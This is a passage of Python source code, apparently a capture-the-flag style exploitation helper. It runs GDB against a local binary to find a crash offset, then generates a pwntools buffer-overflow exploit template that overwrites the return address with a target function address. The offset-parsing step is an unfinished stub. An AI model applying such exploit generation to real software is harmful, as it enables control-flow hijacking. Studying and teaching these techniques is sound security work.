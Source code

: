 ```python
            f.write(gdb_script)
            script_path = f.name
        
        try:
            # Run GDB with script
            result = subprocess.run(
                ['gdb', '-batch', '-x', script_path, self.binary_path],
                capture_output=True, text=True, timeout=10
            )
            
            # Parse output for crash information
            return self._parse_gdb_output(result.stdout)
            
        finally:
            os.unlink(script_path)
    
    def _parse_gdb_output(self, output):
        """Parse GDB output to extract crash information"""
        # TODO: Parse register values and determine offset
        # Look for RSP value and calculate offset using cyclic_find
        pass
    
    def generate_exploit_template(self, offset, target_function=None):
        """Generate basic exploit template"""
        template = f'''#!/usr/bin/env python3
from pwn import *

# Target binary: {self.binary_path}
# Crash offset: {offset}

binary_path = "{self.binary_path}"
context.arch = 'amd64'

def exploit():
    p = process(binary_path)
    
    # Wait for input prompt
    # p.recvuntil(b"prompt: ")
    
    # Craft payload
    offset = {offset}
    '''
        
        if target_function:
            template += f'''
    target_address = {hex(target_function)}
    payload = b'A' * offset + p64(target_address)
    '''
        else:
            template += '''
    # TODO: Find target function address
    # target_address = 0x401234  # Address of win function
    # payload = b'A' * offset + p64(target_address)
    payload = b'A' * (offset + 8)  # Test payload
    '''
        
        template += '''
    # Send payload
    p.sendline(payload)
    p.interactive()

if __name__ == "__main__":
    exploit()
```